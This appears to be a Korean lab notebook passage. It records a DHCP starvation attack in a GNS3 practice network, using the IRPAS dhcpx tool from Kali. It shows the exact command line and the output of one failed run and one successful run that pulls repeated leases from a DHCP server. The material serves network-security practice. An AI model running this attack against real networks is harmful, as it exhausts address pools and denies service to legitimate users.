 ```
DHCPx $Revision: 1.4 $
        (c) 2k++ FX <fx@phenoelit.de>
        Phenoelit (http://www.phenoelit.de)
        IRPAS build XXXIX
        Scan/attack destination is 172.16.10.20
        discovery will run for 3 seconds
        ARP will run for 3 seconds
ARPing for destination address ...
ARP: 172.16.10.20 new
Discovering DHCP servers ...
No DHCP servers found. Use -D option for a specific one
Shutdown complete

-> 실패임
```

다시 해도 안되길래 GNS 다시 셋팅하고 XP 가서 ipconfig 한번 더 쳐봤더니 됨 

root@kali-04:~/Desktop# dhcpx -i eth0 -D 172.16.10.20 -vv

```
DHCPx $Revision: 1.4 $
        (c) 2k++ FX <fx@phenoelit.de>
        Phenoelit (http://www.phenoelit.de)
        IRPAS build XXXIX
        Scan/attack destination is 172.16.10.20
        discovery will run for 3 seconds
        ARP will run for 3 seconds
ARPing for destination address ...
ARP: 172.16.10.20 new
ARP: 172.16.10.20 known - updated
Discovering DHCP servers ...
ARP: 172.16.10.20 known - updated
Added server 172.16.10.20
ARP: 172.16.10.20 known - updated
Server 172.16.10.20 already known       Mon Oct  5 11:55:33 2020

Entering main loop ... (press CTRL-C to finish)
ARP: 172.16.10.20 known - updated
Requesting new lease from server 172.16.10.20
..ooo0000ooo..
..ooo0000ooo..
Renewal is in 94351275186448 secs
Updated lease 172.16.10.43 from server 172.16.10.20
Requesting new lease from server 172.16.10.20
Lease 172.16.10.43 from server 172.16.10.20 will bound
..ooo0000ooo..
.
.
.

```
